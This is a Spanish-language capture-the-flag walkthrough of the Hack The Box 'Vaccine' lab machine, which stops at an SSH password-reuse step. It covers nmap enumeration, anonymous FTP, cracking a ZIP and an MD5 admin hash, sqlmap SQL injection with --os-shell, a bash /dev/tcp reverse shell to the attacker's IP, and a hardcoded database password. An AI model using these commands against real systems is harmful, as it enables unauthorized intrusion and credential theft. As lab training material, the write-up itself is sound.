------------
- Tags: #vulnerabilidad #database #CustomApplications #protocols #sourcecodeanalysis #apache #postgreSQL #FTP #php #Reconnaisance #passwordcracking #SUIDExploitation #sqlinjection #remotecodeexecution #cleartextcredentials #anonymous 
---------





### 🛰️ Enumeración inicial con Nmap

**Objetivo:** Descubrir qué servicios están activos en la máquina objetivo.



**Comando ejecutado:**
```bash
nmap -sS --top-ports 1000 -Pn 10.129.110.32
```



**Parámetros explicados:**

- `-sS`: Escaneo SYN (stealth scan), rápido y menos ruidoso.
    
- `--top-ports 1000`: Escanea los 1000 puertos más comunes.
    
- `-Pn`: No realiza ping previo, útil si ICMP está bloqueado.
    
- `10.129.110.32`: IP de la máquina "Vaccine".

📌 **Respuesta para la Task 1:** `ftp`  
(Es el otro servicio activo además de SSH y HTTP)


### 🔐 Task 2 – Acceso anónimo por FTP

**Pregunta:**

> Este servicio (FTP) puede configurarse para permitir el acceso con cualquier contraseña usando un nombre de usuario específico.  
> ¿Cuál es ese nombre de usuario?

**🟢 Respuesta:** `anonymous`



### 📘 ¿Qué significa esto?

El servicio FTP (puerto 21) muchas veces se configura para que cualquier persona pueda acceder sin necesidad de una cuenta legítima, usando:

```bash
ftp 10.129.110.32
```

### 💡 Importancia en Pentesting

- **Acceso anónimo FTP** es una de las primeras cosas que se comprueban en una auditoría.
    
- Puede revelar información sensible, como archivos de configuración, credenciales o scripts antiguos.


### 📁 TASK 3 - ¿Qué archivo está disponible para descarga?

El archivo mostrado en el listado FTP






✅ **Respuesta TASK 3**: `backup.zip`

###  🔐 TASK 4 – Herramienta de John the Ripper para extraer hashes de ZIP

Bien, en nuestra siguiente tarea:



La respuesta seria: `zip2john

### 📘 ¿Qué es `zip2john`?

`zip2john` es un script que viene incluido con **John The Ripper**. Su propósito es:

- **Extraer un hash** desde un archivo `.zip` protegido por contraseña.
    
- Generar ese hash en un formato especial que **John** puede usar para romper la contraseña con fuerza bruta o diccionario.

🧪 Ejemplo práctico:

```bash
zip2john backup.zip > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

- `zip2john backup.zip`: convierte el archivo `.zip` en un hash.
    
- `john hash.txt --wordlist=...`: intenta descifrar la contraseña usando el diccionario `rockyou.txt`.

➡️ **Sirve para**: romper la contraseña de archivos `.zip`.


## 🧠 Crackeando un ZIP con John The Ripper

### 📦 Paso 1: Obtener el hash del archivo `.zip`

Utilicé la herramienta `zip2john`, incluida en el paquete de **John The Ripper**, para extraer el _hash_ de un archivo ZIP protegido por contraseña:



Esto generó una línea con el hash correspondiente al contenido cifrado del zip. Lo guardé en el archivo `hash.txt` para poder crackearlo después.

### 📄 Contenido del hash generado

Al ejecutar:



Obtenemos unas lineas muy largas con el formato específico que John necesita para intentar descifrar la clave.

## 🔐 Crackeando la contraseña del ZIP con John The Ripper

### 🧾 Paso 1: Lanza el ataque de diccionario

Una vez que tienes el _hash_ en `hash.txt`, simplemente ejecutas el siguiente comando para intentar crackearlo usando un diccionario:



📌 En este caso, John encontró la contraseña: `741852963`

🧰 Siguiente paso - Descomprimir backup.zip con la contraseña

📂 Archivos extraídos:

- `index.php`
    
- `style.css`



## 🔐 Task 5 – Contraseña del usuario admin en la web

### 📌 Situación:

- Tras descomprimir el archivo `backup.zip`, revisamos el código fuente del archivo `index.php`.
    
- Allí encontramos esta condición de autenticación:

if ($_POST['username'] == 'admin' && md5($_POST['password']) == "2cb42f8734ea607eefed3b70af13bbd3")



### 🧠 ¿Qué significa?

- El formulario valida que:
    
    - El **usuario** introducido es `admin`
        
    - La **contraseña**, al ser cifrada con `md5()`, coincida con el hash `2cb42f8734ea607eefed3b70af13bbd3`

### 🔓 Proceso de cracking del hash

- Usamos el sitio web [CrackStation](https://crackstation.net/)
    
- Introducimos el hash en la herramienta.
    
- Resultado devuelto:



💡 Esto significa que la contraseña real que el formulario espera es **qwerty789**

### 💉 Task 6 – Obtener ejecución de comandos con SQLMap



### 🧠 Explicación:

SQLMap permite no solo extraer información de bases de datos vulnerables, sino también intentar ejecutar comandos en el sistema si encuentra una **inyección SQL** que lo permita.

La opción que se utiliza para intentar ejecución de comandos directamente desde SQLMap es:

```bash
--os-shell
```

### 🛠️ ¿Qué hace `--os-shell`?

- Lanza una shell interactiva si la inyección permite ejecución de sistema operativo.
    
- Es útil cuando la vulnerabilidad es lo suficientemente crítica como para ejecutar comandos directamente en la máquina víctima.

💡 Ejemplo de uso:



### 📝 Explicación del resultado:

- SQLMap intenta inyectar comandos SQL que permitan la ejecución remota de comandos en el sistema.
    
- El servidor responde con una cookie de sesión (`PHPSESSID`), y SQLMap te pregunta si quieres usarla para continuar.
    
- Al responder `Y`, SQLMap la utilizará para mantener una sesión válida y proceder con la inyección y prueba de ejecución de comandos.
    

> ⚠️ Esta técnica solo es posible si el servidor es vulnerable a **inyección SQL con capacidad RCE (Remote Command Execution)**.



### 📝 Resultado y análisis:

- **Cookie detectada**: SQLMap detectó que el servidor establece una cookie (`PHPSESSID`), y preguntó si deseabas usarla. Se respondió `y` (yes).
    
- **CRITICAL**: Se mostraron dos advertencias críticas:
    
    - **WAF/IPS detectado**: El servidor parece estar protegido por un firewall o sistema de detección de intrusos.
        
    - **Falta de parámetros vulnerables**: SQLMap no encontró ningún parámetro en la URL (como `id=1`) que pueda ser probado para inyección SQL.

### ✅ Recomendación para continuar:

Para que SQLMap pueda detectar formularios o parámetros vulnerables nos dice:

**You are advised to rerun with '--forms --crawl=2'**

```bash
sqlmap -u "http://10.129.181.200/index.php" --forms --crawl=2 --os-shell
```


### 📌 ¿Qué hacen esas opciones?

- `--forms`: Hace que SQLMap analice formularios HTML (como login o búsqueda).
    
- `--crawl=2`: Navega el sitio hasta 2 niveles de profundidad buscando enlaces y formularios.
    
- `--os-shell`: Intenta ejecutar comandos en el sistema si encuentra una inyección con RCE.

## 🧬 Exploración con SQLMap usando formularios (`--forms`) y rastreo (`--crawl`)

### 🔎 Comando usado:



### ✅ Explicación del análisis:

1. **SQLMap detecta que no existe `sitemap.xml`**, lo cual es común y no impide el rastreo del sitio.
    
2. **Se realiza un rastreo del sitio web** (hasta profundidad 2) en búsqueda de formularios y parámetros.
    
3. Se ejecuta en **modo de un solo hilo (thread)** por defecto.
    
4. Se guarda el resultado del rastreo en un archivo temporal `.csv`.
    
5. **Detecta un formulario vulnerable**:

6. **SQLMap** pregunta si deseas testear ese formulario → aquí debes contestar **"Y"** para que comience la explotación.


Vemos que con este comando , no nos deja seguir con los pasos que es; poder entrar a la shell.

Asi que :

## 🔑 Login web

Accedemos vía navegador a `http://10.129.110.32`  
Credenciales:

- **Usuario**: admin
    
- **Contraseña**: qwerty789
    

Redirige a `/dashboard.php`




## 🩺 Paso 7 – Ejecución de comandos con SQLMap (`--os-shell`)

🧪 **Objetivo:** Obtener ejecución remota de comandos (RCE) a través de una inyección SQL explotada con SQLMap.

### 🧠 Contexto previo

Durante el análisis inicial del sitio web `http://10.129.240.61/dashboard.php`, se identificó el parámetro **`search`** como vulnerable a **inyección SQL**.

Esto se confirmó con SQLMap, al detectar que la inyección permitía ejecutar consultas `UNION`, así como **stacked queries** (consultas apiladas), típicas de bases de datos PostgreSQL. Esto es clave para conseguir **RCE**.

Además, al analizar las peticiones HTTP del navegador, se detectó que la aplicación genera una **cookie de sesión PHP** (por ejemplo, `PHPSESSID=rkfpa7ka8u9lqrrshbuhr70bn`). Esta cookie es **necesaria** para que SQLMap mantenga una sesión válida, como si fuéramos un usuario autenticado navegando por la web.


⚙️ Comando ejecutado:

```bash
sqlmap -u 'http://10.129.240.61/dashboard.php?search=any+query' --cookie="PHPSESSID=rkfpa7ka8u9lqrrshbuhr70bn" --os-shell
```





#### 📌 Explicación detallada del comando:

|Opción|Función|
|---|---|
|`-u`|Indica la URL objetivo, con el parámetro vulnerable (`search`) ya incluido.|
|`'search=any+query'`|Es una cadena de prueba inocua (valor dummy) que activa el procesamiento del parámetro vulnerable sin romper la petición.|
|`--cookie=...`|Permite a SQLMap enviar la cookie de sesión PHP obtenida previamente, para que la aplicación no bloquee las peticiones por falta de autenticación.|
|`--os-shell`|Intenta ejecutar comandos directamente en el sistema si la inyección lo permite (en este caso, usando `COPY FROM PROGRAM` de PostgreSQL).|



### 🖥️ Resultado obtenido

- Se abre una shell interactiva controlada por SQLMap.
    
- Usuario actual: `postgres`
    
- Sistema remoto: Ubuntu 20.04 (`vaccine`)
    
- Shell limitada, pero suficiente para lanzar comandos y obtener una reverse shell mejorada.


## 🗂️ Paso 8 – Listado y análisis de `/var/www/html`

🔍 **Objetivo:** Buscar credenciales o configuración sensible en archivos del servidor web.

📎 **Comando ejecutado:**
```bash
ls -l /var/www/html
```

📥 **Archivos encontrados:**



🧠 **Análisis:**  
No se encuentra un archivo `config.php`, por lo que no hay credenciales directas. El archivo `license.txt` indica que el sitio está basado en un tutorial público, lo que puede implicar prácticas inseguras o contraseñas por defecto.

## 💻 Paso 9 – Establecer reverse shell persistente

🎯 **Objetivo:** Obtener una reverse shell interactiva más estable que permita mayor control.

📎 **Comando lanzado desde SQLMap (os-shell):**

```bash
bash -c "bash -i >& /dev/tcp/10.10.16.54/443 0>&1"
```




📎 **En el atacante:**



📥 **Resultado:**

- Se recibe la shell en `nc`.
    
- Usuario: `postgres`
    
- Ruta actual: `/var/lib/postgresql/11/main`
    


🧠 **Ventaja:** Esta shell es más interactiva que la ofrecida por SQLMap. Podemos ahora ejecutar comandos sin esperar a que SQLMap responda.

## 🕵️ Paso 10 – Búsqueda de credenciales en código fuente del servidor

🧪 **Objetivo:** Identificar información sensible (como contraseñas) en los archivos PHP del servidor web para intentar moverse lateralmente o escalar privilegios.

---

### 📂 Exploración de `/var/www/html`

Tras obtener la reverse shell como `postgres`, accedemos al directorio web del sistema:



📄 Se encontraron varios archivos, entre ellos: `index.php`, `dashboard.php`, `dashboard.js`, `dashboard.css`, `license.txt`.

### 🔍 Análisis de `dashboard.php`

Visualizamos el contenido del archivo `dashboard.php`:

💡 **Hallazgo importante:**

Dentro del bloque PHP encargado de conectarse a la base de datos PostgreSQL, encontramos las siguientes líneas:

```bash
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@ssw0rd!");
```



📌 La contraseña `P@ssw0rd!` está **hardcodeada** (escrita directamente en el código fuente).

### 🧠 Análisis:

- El usuario que se conecta a PostgreSQL con esa contraseña es `postgres`.
    
- Es posible que esa misma contraseña se reutilice en otros servicios, como **SSH** o en otros usuarios del sistema.


## 🔐 Paso 11 – Acceso SSH reutilizando la contraseña encontrada

🎯 **Objetivo:** Probar si la contraseña `P@ssw0rd!` también es válida para el usuario `postgres` en SSH.

📎 Comando utilizado:

```bash
ssh postgres@IP
```

